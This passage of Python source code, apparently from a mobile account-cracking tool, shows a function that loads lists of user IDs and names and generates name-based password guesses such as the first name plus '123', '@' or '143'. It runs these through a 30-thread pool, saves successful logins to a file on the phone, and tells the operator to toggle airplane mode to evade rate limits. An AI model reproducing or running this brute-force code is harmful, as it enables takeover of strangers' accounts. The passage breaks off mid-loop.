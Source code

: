 
def passwrd():
    os.system('clear')
    banner()
    TUTULj('\x1b[10;97m===============================================')
    print('\x1b[10;97m[\x1b[10;92m+\x1b[10;97m]\x1b[38;5;208m USER NAME\x1b[10;91m :\x1b[10;96m ' + NameX)
    print('\x1b[10;97m[\x1b[10;92m+\x1b[10;97m] \x1b[10;92mTOTAL IDz :\x1b[10;97m ' + str(len(id)))
    print('\x1b[10;97m[\x1b[10;92m+\x1b[10;97m] \x1b[10;94mYOUR OK IDz SAVED\x1b[10;91m : \x1b[10;93m/sdcard/Tutul-Ok.txt')
    print('\x1b[10;97m[\x1b[10;92m+\x1b[10;97m] \x1b[38;5;208mUSE YOUR \x1b[10;95mAIRPLANE MODE \x1b[10;97m[\x1b[10;92mON\x1b[10;91m/\x1b[10;92mOFF\x1b[10;97m] \x1b[10;92mAFTER\x1b[10;91m-\x1b[10;92m3 MIN')
    TUTULj('\x1b[10;97m===============================================')
    pool = tred(max_workers = 30)
    for yuzong in id2:
        nmf = yuzong.split('|')[1].lower()
        idf = yuzong.split('|')[0]
        frs = nmf.split(' ')[0]
        pwv = []
        if len(nmf) < 6:
            if len(frs) < 3:
                pass
            pwv.append(frs + '1')
            pwv.append(frs + '11')
            pwv.append(frs + '12')
            pwv.append(frs + '123')
            pwv.append(frs + '1234')
            pwv.append(frs + '12345')
            pwv.append(frs + '123456')
            pwv.append(nmf)
            pwv.append('i love you')
            pwv.append(frs + '@')
            pwv.append(frs + '@@')
            pwv.append(frs + '@@@')
            pwv.append(frs + '@@@@')
            pwv.append(frs + '143')
            pwv.append(frs + '@#')
            pwv.append(frs + '@#123')
            pwv.append(frs + '@12')
            pwv.append(frs + '@123')
            pwv.append(frs + '1122')
            pwv.append(frs + '111')
        if len(frs) < 3:
            pwv.append(nmf)
        pwv.append(frs + '1')
        pwv.append(frs + '11')
        pwv.append(frs + '12')
        pwv.append(frs + '123')
        pwv.append(frs + '1234')
        pwv.append(frs + '12345')
        pwv.append(frs + '123456')
        pwv.append(nmf)
        pwv.append('i love you')
        pwv.append(frs + '@')
        pwv.append(frs + '@@')
        pwv.append(frs + '@@@')
        pwv.append(frs + '@@@@')
        pwv.append(frs + '143')
        pwv.append(frs + '@#')
        pwv.append(frs + '@#123')
        pwv.append(frs + '@12')
        pwv.append(frs + '@123')
        pwv.append(frs + '1122')